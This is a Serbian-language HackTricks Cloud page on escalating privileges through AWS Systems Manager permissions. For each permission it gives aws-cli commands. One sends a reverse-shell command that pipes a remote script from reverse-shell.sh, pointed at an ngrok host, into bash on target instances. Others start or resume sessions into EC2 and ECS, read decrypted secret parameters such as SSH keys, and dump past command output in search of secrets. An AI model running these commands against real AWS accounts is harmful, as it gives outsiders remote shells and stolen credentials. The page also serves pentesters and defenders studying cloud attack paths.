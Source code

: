 # AWS - SSM Eskalacija privilegija

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJATELJSTVO**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## SSM

Za više informacija o SSM proverite:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Napadač sa dozvolom **`ssm:SendCommand`** može **izvršavati komande na instancama** koje pokreću Amazon SSM Agent i **ugroziti IAM ulogu** koja se izvršava unutar nje.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
U slučaju da koristite ovu tehniku za eskalaciju privilegija unutar već kompromitovanog EC2 instanca, jednostavno možete uhvatiti reverzibilnu ljusku lokalno sa:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Potencijalni uticaj:** Direktno privescovanje na EC2 IAM uloge prikačene za pokrenute instance sa pokrenutim SSM agentima.

### `ssm:StartSession`

Napadač sa dozvolom **`ssm:StartSession`** može **pokrenuti sesiju sličnu SSH-u na instancama** na kojima radi Amazon SSM Agent i **ugroziti IAM ulogu** koja se izvršava unutar nje.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Da biste započeli sesiju, potrebno je da imate instaliran **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Potencijalni uticaj:** Direktno podizanje privilegija na EC2 IAM uloge prikačene za pokrenute instance sa pokrenutim SSM agentima.

#### Podizanje privilegija na ECS

Kada **ECS zadaci** rade sa omogućenim **`ExecuteCommand`**, korisnici sa dovoljno dozvola mogu koristiti `ecs execute-command` da **izvrše komandu** unutar kontejnera.\
Prema [**dokumentaciji**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) ovo se postiže kreiranjem sigurnog kanala između uređaja koji koristite za pokretanje "_exec_" komande i ciljnog kontejnera sa SSM Session Manager-om.\
Stoga, korisnici sa `ssm:StartSession` će moći da **dobiju shell unutar ECS zadataka** sa tom opcijom omogućenom jednostavno pokretanjem:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Potencijalni uticaj:** Direktno privesc do `ECS` IAM uloga prikačenih za pokrenute zadatke sa omogućenim `ExecuteCommand`.

### `ssm:ResumeSession`

Napadač sa dozvolom **`ssm:ResumeSession`** može ponovo **pokrenuti SSH sesiju na instancama** koje pokreću Amazon SSM Agent sa **isključenim** stanjem SSM sesije i **ugroziti IAM ulogu** koja se izvršava unutar nje.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potencijalni uticaj:** Direktno privesc na EC2 IAM uloge prikačene za pokrenute instance sa pokrenutim SSM agentima i prekinutim sesijama.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Napadač sa navedenim dozvolama će moći da izlistava **SSM parametre** i **čita ih u čistom tekstu**. U ovim parametrima često možete **pronaći osetljive informacije** kao što su SSH ključevi ili API ključevi.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Potencijalni uticaj:** Pronalaženje osetljivih informacija unutar parametara.

### `ssm:ListCommands`

Napadač sa ovlašćenjem može da izlistava sve **komande** poslate i nadamo se pronaći **osetljive informacije** u njima.
```
aws ssm list-commands
```
**Potencijalni uticaj:** Pronalaženje osetljivih informacija unutar komandnih linija.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Napadač sa ovim dozvolama može da prikaže sve **komande** poslate i **pročita izlaz** generisan, nadajući se pronalasku **osetljivih informacija** u njima.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Potencijalni uticaj:** Pronalaženje osetljivih informacija unutar izlaza komandnih linija.

### Codebuild

Takođe možete koristiti SSM da pristupite projektu codebuild koji se gradi:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

